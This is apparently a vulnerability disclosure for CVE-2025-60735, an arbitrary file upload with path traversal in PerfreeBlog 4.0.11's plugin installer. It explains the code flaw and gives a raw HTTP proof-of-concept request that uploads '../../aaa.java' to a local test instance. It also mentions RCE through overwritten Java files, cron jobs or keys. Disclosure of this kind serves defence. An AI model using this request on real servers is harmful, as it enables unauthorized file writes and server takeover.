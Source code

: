 # PerfreeBlog v4.0.11 has an File Upload vulnerability in the installPlugin function(CVE-2025-60735)

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file upload vulnerability, which allows uploading any file to the server and gaining server privileges.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
The code for uploading plugin files is as follows:
![](./img/1.png)
It first loads the uploaded plugin file into the temp directory.
![](./img/2.png)
Enter the `installPlugin` function.
![](./img/4.png)
Enter the `extractZipPlugin` function and find that it first decompresses the file. If the uploaded file is not a zip file, the decompression will fail, and the `del` function in the previous image will not be executed. As a result, the uploaded file will be saved in the temp directory. Moreover, directory traversal can be performed using `../`, leading to a file upload vulnerability and potential file overwriting.
![](./img/5.png)


## Vulnerability Reproduction
First, log in to the background and navigate to Plugin Management.
![](./img/3.png)

Click "Upload File" and capture the packet.
The interface is:
```
http://127.0.0.1:8086/api/auth/plugins/installPlugin
```
This interface allows uploading files with any suffix to the temp directory, and directory traversal can be performed using `../`.

```
POST /api/auth/plugins/installPlugin HTTP/1.1
Host: 127.0.0.1:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6InNlY3VyaXR5IiwiaWF0IjoxNzU1NzU1MDc5LCJhdWQiOiJzZWN1cml0eS1hbGwiLCJleHAiOjE3NTU3NjIyNzl9.azdp21oZS07AwDE6ktPN4Ke6jTLYPUNl1AgefyplPkI
Content-Type: multipart/form-data; boundary=----geckoformboundary60799225bab841ffad0224b272f8ae53
Content-Length: 233
Origin: http://127.0.0.1:8086
Connection: keep-alive
Referer: http://127.0.0.1:8086/admin/plugin
Cookie: 
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary60799225bab841ffad0224b272f8ae53
Content-Disposition: form-data; name="file"; filename="../../aaa.java"
Content-Type: text/plain

111111111111111
------geckoformboundary60799225bab841ffad0224b272f8ae53--
```
![](./img/6.png)
Successfully uploaded to the target directory. It is also possible to overwrite existing Java files to achieve RCE, as shown in the following figure.
![](./img/7.png)


For Linux systems, it is possible to write cron jobs, public-private keys, etc., to gain server privileges.
